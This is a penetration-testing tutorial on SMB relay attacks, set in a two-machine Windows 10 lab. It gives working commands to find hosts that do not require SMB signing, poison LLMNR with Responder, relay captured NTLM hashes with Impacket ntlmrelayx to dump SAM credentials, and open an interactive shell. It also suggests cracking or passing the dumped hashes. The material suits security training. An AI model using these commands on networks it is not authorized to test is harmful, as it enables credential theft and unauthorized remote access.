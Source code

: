 # SMB Relay

## What is it

A SMB relay attack is where an attacker captures a users NTLM hash and relays its to another machine on the network. Masquerading as the user and authenticating against SMB to gain shell or file access.

## Prerequisites

* SMB Signing disabled on target
* Must be on the local network
* User credentials must have remote login access for example; local admin to the target machine or member of the Domain Administrators group.

## SMB Signing

### What it does

SMB signing verifies the origin and authenticity of SMB packets. Effectively this stops MITM SMB relay attacks from happening. If this is enabled and required on a machine we will not be able to perform a SMB relay attack.

### Scanning for Signing disabled machines

Nmap can be used to check for potential SMB relay targets.&#x20;

```
sudo nmap --script=smb2-security-mode.nse -p 445 192.168.183.0/24 -Pn --open
```

<figure><img src="../../../.gitbook/assets/image (578).png" alt=""><figcaption></figcaption></figure>

As we can see, the two Windows 10 hosts have 'Message signing enabled but not required' meaning we can perform a SMB relay attack as signing is not required.

## Lab Scenario

In the lab scenario we have two machines

* WS01 (192.168.183.137)(Windows 10)
* WS02 (192.168.183.138)(Windows 10)

We will be capturing a hash on WS01 using LLMNR Poisoning and performing a SMB relay attack to gain shell on WS02.

As per the prerequisites the user account hash we will be capturing (MARVEL\fcastle) is a member of the local administrators group on the machine we will be relaying to WS02.

<figure><img src="../../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

## How to perform the attack

### Dumping local SAM Database

Ideally we will use `Responder` for this attack which comes preinstalled on Kali Linux. Before we start `Responder` we need to make a small change to the configuration file.

<figure><img src="../../../.gitbook/assets/image (589).png" alt=""><figcaption></figcaption></figure>

We need to turn off SMB and HTTP servers as we do not want to respond to these protocols as we will be capturing the hash and relaying it to a different tool called `ntlmrelayx.py` from Impacket.

Start Responder with the following command:

```
sudo responder -I eth0 -dwv
```

And then call ntlmrelayx.py from Impacket.

```
sudo impacket-ntlmrelayx -t 192.168.183.138 -smb2support
or
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```

with both tools listening we can trigger an event using LLMNR.

Responder has caught the user 'fcastle' attempting to browse to a host that does not exists on the network. After DNS has failed to resolve the machine falls back to LLMNR which in this case we have caught the hash and relayed it over to ntlmrelayx.py.

ntlmrelayx.py then forwards the hash over to the machines specified with the `-t` switch which in this case is 192.168.183.138 or WS02.

As the user 'fcastle' is an administrator on WS02, `ntlmrelayx.py` has allowed us to dump the hashes in the SAM database.

<figure><img src="../../../.gitbook/assets/image (549).png" alt=""><figcaption></figcaption></figure>

We can then take these hashes and crack them or we can even attempt a pass-the-hash attack and attempt to gain a shell with the NTLMv2 hash on a different machine on the network.

### Interactive Shell

We can gain a shell with the same manner above except this time we specify the `-i` switch in ntlmrelayx.py.

```
sudo impacket-ntlmrelayx -t 192.168.183.138 -smb2support -i
or
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```

When we get a successful authentication message in ntlmrelayx.py we will need to open a netcat bind shell on the localhost and port specified in the ntlmrelayx.py output.

<figure><img src="../../../.gitbook/assets/image (566).png" alt=""><figcaption></figcaption></figure>

Start netcat with a localhost address and the port specified in the output above.

```
nc 127.0.0.1 <port>
```

<figure><img src="../../../.gitbook/assets/image (381).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (554).png" alt=""><figcaption></figcaption></figure>

## Resource

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/smb-relay" %}
